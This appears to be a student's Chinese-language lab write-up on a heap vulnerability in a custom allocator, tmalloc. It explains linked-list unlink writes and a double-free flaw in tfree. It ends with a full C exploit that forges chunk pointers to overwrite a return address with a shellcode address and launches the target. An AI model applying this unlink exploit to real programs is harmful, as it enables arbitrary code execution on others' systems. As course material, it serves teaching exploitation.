



[toc]

# vul4

## 堆溢出例子(任意内存写入)

- 双向链表管理

  - 节点定义

    > ```c++
    > struct Node {
    >     Node *left;
    >     Node *right;
    > }
    > ```

  - 假设现在已经有三个节点 $p, q, r$，且连接关系如下

    

  - 如果我们修改节点 $q$ 的左右指针如下

    

  - 那么在节点 $q$ 从双向链表中删除时会造成内存地址写入

    > ```c++
    > void Remove(Node* node) {
    >     // ...
    >     // 这一句将 node->left 写入地址 node->right
    >     node->right->left = node->left;
    > }
    > ```

## tmalloc 分析

- 实际上可以看作自己实现的堆

- 数据结构

  - `CHUNK` 

    ```c
    // 联合体，既可以表示双向链表的结点，也可以表示一块被分配的数据(8字节)区域
    typedef union CHUNK_TAG
    {
        // 链表节点, 包含左、右指针
        struct
        {
            union CHUNK_TAG *l;
            // 最后一个二进制位用来表示当前 chunk 的状态
            // 1 for free, 0 for busy
            union CHUNK_TAG *r; 
        } s;
        // 数据区域
    	// typedef double ALIGN;
        ALIGN x;
    } CHUNK;
    ```

    - 是一个联合类型
      - 如果为指针，则指向其左右 chunk
      - 也可以表示一块被分配的数据区域
    - 指针 $s.r$ 的最后一位用来表示当前 chunk 的状态
      - 1 表示空闲
      - 0 表示已经被分配

  - `arena`

    ```c++
    #define ARENA_CHUNKS (65536/sizeof(CHUNK))
    static CHUNK arena[ARENA_CHUNKS];
    ```

    - `arena` 是一个由 `CHUNK` 组成的数组

    - [作用](https://stackoverflow.com/questions/12825148/what-is-the-meaning-of-the-term-arena-in-relation-to-memory)

      > An arena is just a large, contiguous piece of memory that you **allocate once**(e.g. use malloc from OS or static array) and then use to manage memory **manually** by handing out parts of that memory

  - `top` 和 `bot`

    ```c++
    static CHUNK *bot = NULL;       // 双向链表头
    static CHUNK *top = NULL;       // 双向链表尾
    
    static void init(void)
    {
        bot = &arena[0]; top = &arena[ARENA_CHUNKS-1];
        bot->s.l = NULL; bot->s.r = top;
        top->s.l = bot;  top->s.r = NULL;
        SET_FREEBIT(bot); CLR_FREEBIT(top);
    }
    ```

- 函数

  - `void *tmalloc(unsigned nbytes)`

    ```c++
    void *tmalloc(unsigned nbytes)
    {
    	// ...
        // 计算要分配的大小(chunk 数 * chunk 大小)
        size = sizeof(CHUNK) * ((nbytes+sizeof(CHUNK)-1)/sizeof(CHUNK) + 1);
    	
        // 找到双向链表中第一个足够大的空闲节点
        for (p = bot; p != NULL; p = RIGHT(p))
            if (GET_FREEBIT(p) && CHUNKSIZE(p) >= size)
                break;
        if (p == NULL)
            return NULL;
    
        CLR_FREEBIT(p);
        if (CHUNKSIZE(p) > size)
        {
            CHUNK *q, *pr;
            // 根据要分配的大小计算要插入空闲节点的位置
            q = (CHUNK *)(size + (char *)p);
            pr = p->s.r;
            // 空闲节点插入双向链表
            q->s.l = p; q->s.r = pr;
            p->s.r = q; pr->s.l = q;
            SET_FREEBIT(q);
        }
        return FROMCHUNK(p);
    }
    ```

    > 1. 计算要分配的大小
    >    - 需要按照 chunk 大小对齐
    >    - 需要留 1 个 chunk 存放堆首信息(双链表的节点)
    > 2. 找到双向链表中第一个足够大的空闲节点
    > 3. 插入空闲节点至双向链表

  - `void tfree(void *vp)`

    ```c++
    void tfree(void *vp)
    {
        // ...
        p = TOCHUNK(vp);
        CLR_FREEBIT(p);
        q = p->s.l;
        // 与左空闲节点 q 合并
        if (q != NULL && GET_FREEBIT(q))
        {
            CLR_FREEBIT(q);
            q->s.r      = p->s.r;
            p->s.r->s.l = q;
            SET_FREEBIT(q);
            p = q;
        }
        // ...
    }
    ```

    > 1. $p$ 与左空闲节点 $q$ 合并
    >    - 判断左节点是否为空以及空闲
    >    - **==删除 $p$ 节点==**
    >      - 存在上述所说的漏洞
    >    - $p = q$
    > 2. 与右空闲节点合并(类似1)

## 漏洞分析

> - 申请 $p, q$
>
>   ```c++
>   p = tmalloc(500);
>   q = tmalloc(300);
>   ```
>
>   
>
> - 释放 $p, q$
>
>   ```c++
>   tfree(p);
>   tfree(q);
>   ```
>
>   
>
>   > 尽管被释放，但 $p, q$ 仍然指向原位置
>
> - 申请 $p$，并写入数据
>
>   ```c++
>   p = tmalloc(1024);
>   obsd_strlcpy(p, arg, 1024);
>   ```
>
>   
>
>   > 指针 $q$ 指向的数据可以被用户修改
>
> - 释放 $q$
>
>   ```c++
>   tfree(q);
>   ```
>
>   - **存在任意内存写漏洞！**

## 构造 exploit

- 利用上述漏洞，将返回地址修改为 shellcode 地址

  > 1. 写入 shellcode
  >
  > 2. 构造写入指针 $q$ 左右指针的值
  >
  >    > 1. 左指针等于 buf 地址
  >    >
  >    >    - 这里没有直接指向 shellcode 的地址是因为需要满足==地址的第5个字节末尾是 1(freebit才会进行合并)==
  >    >
  >    >    - 于是我们将 buf 的第 5~8 个字节全部设置为 0xff
  >    >
  >    >    - 跳转到 buf 的起始地址后需要跳过 5~8 这四个字节，使用相对跳转跳过6个字节，因此在 buf 的前两个字节写入 `6eb`(大端编址)
  >    >
  >    >      ```assembly
  >    >      eb 6
  >    >      ```
  >    >
  >    > 2. 右指针指向返回地址

  ```c++
  int main(void)
  {
      char payload[1024] = { 0 };
      memset(payload, 0x90, sizeof(payload) - 1);
      unsigned int shellcode_offset = 32;
      memcpy(payload + shellcode_offset, shellcode, strlen(shellcode));
  
      unsigned int buf_addr = 0x804a068;
      unsigned int shellcode_addr = buf_addr + shellcode_offset;
      // ebp = 0xffffde5c
      unsigned int return_addr = 0xffffda5c + 4;
      // 需要按照 8 字节对齐
      unsigned int q_offset = 504;
      
      //! 需要注意的是，这里并不能直接指向 shellcode 的地址
      //! 因为需要 (int)(addr + 4) 是一个奇数,而 *(shellcode + 4) = 0xc0310876 不满足条件
      //! 因此我们需要指向一个 shellcode 前面的一个位置，并通过 nop 滑倒 shellcode
      //! 这里直接将 payload + 4 设置为 0xffffffff
      memset(payload + 4, 0xff, 4);
      // q.l = buf_addr
      memcpy(payload + q_offset, &buf_addr, 4);
      //! 由于 buf_addr + 4 变成了 0xffffffff, 而返回地址位于 buf_addr
      //! 因此需要跳过这 4 个字节
      // eb 6 相对跳转
      // 注意是大端编址
      unsigned short int jmp_4_bytes = 0x6eb;
      memcpy(payload, &jmp_4_bytes, 2);
  
      // q.r = ebp + 4
      memcpy(payload + q_offset + 4, &return_addr, 4);
      char *args[] = {TARGET, payload, NULL};
      char *env[] = {NULL};
  
      execve(TARGET, args, env);
      fprintf(stderr, "execve failed.\n");
  
      return 0;
  }
  ```

  


